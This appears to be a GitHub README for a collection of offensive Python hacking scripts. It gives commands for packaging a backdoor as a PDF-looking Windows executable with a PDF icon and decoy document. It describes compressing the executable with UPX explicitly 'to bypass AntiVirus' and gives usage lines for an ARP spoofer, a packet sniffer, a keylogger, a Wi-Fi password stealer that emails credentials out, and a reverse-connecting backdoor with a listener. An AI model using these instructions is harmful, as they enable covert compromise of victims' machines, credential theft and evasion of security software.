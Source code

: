 # Python Scripts
A Collection of Python Scripts.

## Packaging

### Common
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (size:128px & 512*\512) with PNG format
- Use [Convertor](https://www.zamzar.com/convert/png-to-ico/) to convert PNG to ICO (512\*512) & change the name to pdf.ico
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object
- Use a sample pdf file to show to user


